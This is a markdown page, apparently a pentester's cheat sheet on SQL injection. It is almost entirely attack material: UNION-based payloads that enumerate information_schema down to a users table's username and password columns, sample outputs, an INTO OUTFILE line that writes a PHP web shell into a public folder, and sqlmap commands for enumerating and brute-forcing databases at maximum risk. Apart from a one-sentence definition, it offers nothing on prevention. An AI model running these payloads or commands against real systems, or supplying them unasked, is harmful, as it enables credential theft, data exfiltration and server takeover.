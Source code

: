 ```yaml
---
### The title for the content.
title : "SQL Injection"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "SQL Injection description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## sql injection

SQL injection usually occurs when you ask a user for input, like their username/userid, and instead of a name/id, the user gives you an SQL statement that you will unknowingly run on your database.

## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/) [ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

1=1 a=a

### Escape/stop

#### mysql 

```sql
# 
-- 
#--
```

### MySQL Verison

select version\(\)

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

```text
dummymalex:dummyms
table_schema = dummymalex
table_name   = dummyms
```

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

```text
LIMIT 0,1
dummymalex:dummyms 
table_schema = dummymalex
table_name   = dummyms 

LIMIT 1,1 
dummymalex:users     
table_schema = dummymalex
table_name   = users
```

#### column\_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
dummyms

LIMIT 2,1
description
```

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
username

LIMIT 2,1
password
```

### upload shell with INTO OUTFILE

```sql
select 'SHELLCODE' INTO OUTFILE '/path/to/public/folder/shell.php';
```

## SQLmap

### Simple usage

```
sqlmap -u "http://target_server/"
```

### Set target DBMS to MySQL
```
sqlmap -u "http://target_server/" --dbms=mysql
```

### Use POST requests

```
sqlmap -u "http://target_server/" --data=param1=value1&param2=value2
```

### Use POST request file

```
sqlmap -r request.txt -p [param-to-test]
```

### Batch run

```
sqlmap -r request.txt -p [param-to-test] --Batch
```

### Set Risk/Level

```
sqlmap -r request.txt -p psw --level=5 --risk=3 --dbms mysql --batch
```

### enumerate databases

```
sqlmap -r request.txt --batch --dbs
``` 

### enumerate tables

``` 
sqlmap -r request.txt -batch --tables
``` 

### brute-force tables

```
sqlmap -r request.txt -batch --common-tables
```

### brute-force columns

```
sqlmap -r request.txt -batch -T users --common-column
```